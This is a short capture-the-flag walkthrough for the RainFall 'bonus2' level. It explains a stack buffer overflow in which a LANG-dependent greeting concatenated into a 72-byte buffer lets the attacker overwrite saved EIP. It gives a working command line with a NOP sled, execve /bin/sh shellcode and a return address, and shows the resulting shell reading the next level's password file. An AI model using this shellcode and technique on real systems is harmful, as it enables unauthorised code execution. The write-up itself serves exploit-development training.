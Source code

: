  # Walkthrough bonus2

We have a buffer of 72 in a function `greetuser`.  
So we can write 72 chars in our buffer. 40 in argv[1] and 32 in argv[2].   
But an another string is concatenate with our buffer. Depends of one environment variable named `LANG`.   

"Hello " + 70 * "a" --> saved EIP 
First without changed our env variable we can write 2 bytes in saved EIP.

So we need to have a bigger string to override all `saved EIP`.   
We can change `Lang` to "nl" because the string length is bigger.
"Goedemiddag! " + 63 * "a" --> saved EIP 

We have 63 chars for the shellcode. The 4 chars after are to replace `saved EIP` by address of the nop sled.  


``` bash
bonus2@RainFall:~$ ./bonus2 $(python -c 'print("\x90" * 12 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")') $(python -c 'print("a" * 23) + "\xe8\xf8\xff\xbf"')
Goedemiddag! ������������1�Ph//shh/bin����°
                                           1�@̀aaaaaaaaaaaaaaaaaaaaaaa����
$ whoami
bonus3
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
